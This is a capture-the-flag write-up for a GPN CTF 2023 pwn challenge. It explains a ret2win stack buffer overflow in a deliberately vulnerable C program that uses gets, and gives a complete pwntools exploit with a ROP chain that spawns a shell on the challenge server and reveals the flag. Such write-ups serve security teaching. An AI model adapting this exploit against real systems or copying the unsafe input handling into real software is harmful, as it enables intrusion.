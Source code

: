 ```yaml
---
title: GPN CTF 2023 - Overlows Keep Flowing
date: Fri Jun  9 11:02:11 PM +04 2023
categories: [Writeup]
tags: [ctf,kitctf2023,pwn]
---
```


## Description

Overlows keep flowing | 133 points

Oh no! Another thing in another system broke, causing more overflows. This time you have to tell shutoff() what to shut off. Can you save the fl4gtory?

This is the second challenge in the pwn intro series

`ncat --ssl overflows-keep-flowing-0.chals.kitctf.de 1337`

Downloads: [overflows-keep-flowing.tar.gz](https://ctf.kitctf.de/files/9296c5d8054162d7d0bfebf429595d11/overflows-keep-flowing.tar.gz?token=eyJ1c2VyX2lkIjo4MzksInRlYW1faWQiOjUwNCwiZmlsZV9pZCI6Njd9.ZIN2mw.TClLcffi089EPC0WIQouSB5QSKY)


## Analysis

Another ret2win challenge but with an argument of type `long long int`.

```c
#include <stdio.h>
#include <stdlib.h>

// gcc -no-pie -fno-stack-protector -o overflows-keep-flowing overflows-keep-flowing.c

void shutoff(long long int arg1) {
	printf("Phew. Another accident prevented. Shutting off %lld\n", arg1);
	if (arg1 == 0xdeadbeefd3adc0de) {
		execve("/bin/sh", NULL, NULL);
	} else {
		exit(0);
	}
}

int main() {
	char buf[0xff]; // 255
	gets(buf);
	puts(buf);
	return 0;
}
```
`-no-pie` means that addresses will be the same when program is run, meaning remote application has same address.<br>
`-fno-stack-protector` basically allows buffer overflows to happen.

To overflow the buffer we need more then 255 characters, if RIP (x64 Instruction Pointer) is overwritten with address of our choice (shutdown) with the correct argument we can "win".

Let's find padding.
```sh
└─$ cyclic 300 | clip 

└─$ gdb -q ./overflow-in-the-fl4gtory
pwndbg> run
{PASTE_CYCLIC_PATTERN}
... Program Crashes ...

*RBP  0x636161706361616f ('oaacpaac')
*RSP  0x7ffd7a4547d8 ◂— 'qaacraacsaactaacuaacvaacwaacxaacyaac'
*RIP  0x4011b8 (main+52) ◂— ret 

pwndbg> quit

└─$ cyclic -l qaac
264 # Padding
```
<small>Note: `clip` directs output to clipboard `alias clip="xclip -sel clip"`</small>

Now we need return address of `shutoff`
```sh
>>> from pwn import *
>>> elf = ELF("./overflows-keep-flowing", checksec=False)
>>> elf.functions.shutoff
Function(name='shutoff', address=0x4011b6, size=0x5c, elf=ELF('./overflows-keep-flowing'))
```

<small>This can also be found with gdb `gdb ./program -> info functions` or [**radare2**](https://github.com/radareorg/radare2) `r2 ./program -> aaa -> afl`</small>

We will also need a `pop_rdi` gadget to put param1 into register.
```sh
└─$ ropper --file overflows-keep-flowing --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: overflows-keep-flowing
0x00000000004012b3: pop rdi; ret; 
```

## Solution

```py
from pwn import *

# context.log_level = "DEBUG"

exe = "./overflows-keep-flowing"
elf = context.binary = ELF(exe, checksec=False)

if args.REMOTE:
    proc = remote('overflows-keep-flowing-0.chals.kitctf.de', 1337, ssl=True)
else: 
    proc = process(exe)

padding = 264
payload = flat(
    b"\x90" * padding,    # padding
    0x4012b3,             # pop_rdi (gadget)
    0xdeadbeefd3adc0de,   # param 1
    0x40101a,             # ret (gadget)
    elf.functions.shutoff # Function we want to jump to
)
proc.sendline(payload)
proc.recvline() # puts

proc.recvline() # function printf
proc.sendline(b"cat flag.txt; echo;")
flag = proc.recvline().decode().strip()
print(flag)

# or comment lines above and use the shell and use cat
# proc.interactive()
```

```sh
└─$ py exploit.py REMOTE
[+] Opening connection to overflows-keep-flowing-0.chals.kitctf.de on port 1337: Done
GPNCTF{1_h0p3_y0u_d1dn't_actually_bu1ld_a_r0p_cha1n}
[*] Closed connection to overflows-keep-flowing-0.chals.kitctf.de port 1337
```

#### PS

I had trouble making the exploit work on remote, [this](https://www.reddit.com/r/securityCTF/comments/nbb5z2/comment/gy2vv2x/) reddit comment helped (by [ebeip90](https://www.reddit.com/user/ebeip90/))

If you want to explore difference between x32 and x64 [CryptoCat](https://www.youtube.com/playlist?list=PLHUKi1UlEgOIc07Rfk2Jgb5fZbxDPec94) has great video [# 4: Ret2Win with Function Parameters](https://youtu.be/vO1Uj2v3r7I)